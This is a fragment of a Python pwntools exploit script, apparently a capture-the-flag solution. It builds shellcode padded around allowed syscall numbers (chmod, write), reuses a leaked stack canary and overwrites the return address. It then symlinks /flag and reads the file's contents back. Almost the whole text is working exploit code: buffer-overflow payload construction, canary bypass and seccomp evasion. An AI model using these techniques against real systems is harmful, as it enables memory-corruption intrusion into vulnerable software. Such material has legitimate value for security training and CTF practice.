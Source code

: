 ```python
    shellcode += b"".ljust(allowed_syscall_offset - shellcode_length, b"A")
    shellcode += p32(0x5A)  # SYS_chmod
    shellcode += p32(0x01)  # SYS_write
    shellcode += b"".ljust(padding_size - (allowed_syscall_offset + 0x8), b"A")
    shellcode += canary
    shellcode += padding_to_ret
    shellcode += p64(ret_addr)

    return shellcode


def attack(target, payload):
    try:
        os.system("ln -s /flag f")

        payload_size = f"{len(payload)}".encode()
        target.sendlineafter(b"Payload size: ", payload_size)

        target.recvuntil(b"Send your payload")
        send_payload(target, payload)
        response = target.recvall(timeout=5)
        log.debug(response.decode("utf-8", errors="ignore"))

        try:
            with open("./f", "r") as file:
                content = file.read()

                log.success(content)
                return True
        except FileNotFoundError:
            log.exception("The file './f' does not exist.")
        except PermissionError:
            log.failure("Permission denied to read './f'.")
        except Exception as e:
            log.exception(f"An error occurred while performing attack: {e}")
    except Exception as e:
        log.exception(f"An error occurred while performing attack: {e}")


def main():
    try:
        target = launch()
        payload = construct_payload(target)

        attack(target, payload)
    except Exception as e:
        log.exception(f"An error occurred in main: {e}")


if __name__ == "__main__":
    main()
```

